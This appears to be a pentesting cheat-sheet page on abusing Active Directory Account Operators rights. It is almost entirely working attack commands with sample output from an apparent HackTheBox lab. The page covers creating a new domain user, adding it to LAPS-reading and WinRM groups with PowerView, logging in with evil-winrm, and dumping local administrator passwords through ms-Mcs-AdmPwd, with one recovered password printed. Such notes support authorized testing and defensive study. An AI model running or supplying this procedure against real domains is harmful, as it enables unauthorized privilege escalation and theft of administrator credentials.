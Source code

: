 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Credential Dumping", "AddMember", "Account Operators", "Active Directory", "Windows", "LAPS"]
---
```


### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create a new user password object

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> $new_user_password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
```

#### 4. Create a new user account

```console
New-AdUser '<NEW_USER>' -enabled $true -accountpassword $new_user_password -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> New-AdUser 'alice' -enabled $true -accountpassword $new_user_password -Credential $cred
```

#### 5. Add the new user to LAPS group

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'LAPS READ' -Members 'alice' -Credential $cred
```

#### 6. Add the new user to WinRM group

```console
Add-DomainGroupMember -Identity 'WinRM' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity WinRM -Credential $cred -Members 'alice'
```

#### 7. Remote as new user

```console
evil-winrm -i <TARGET> -u '<NEW_USER>' -p '<NEW_USER_PASSWORD>'
```

```console {class="sample-code"}
$ evil-winrm -i 127.0.0.1 -u alice -p 'Test1234'              
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alice\Documents> 
```

#### 8. Read LAPS password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\alice\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd

DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 82SD67Cuq34TPZm4mnFo
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :
```

{{< /tabcontent >}}
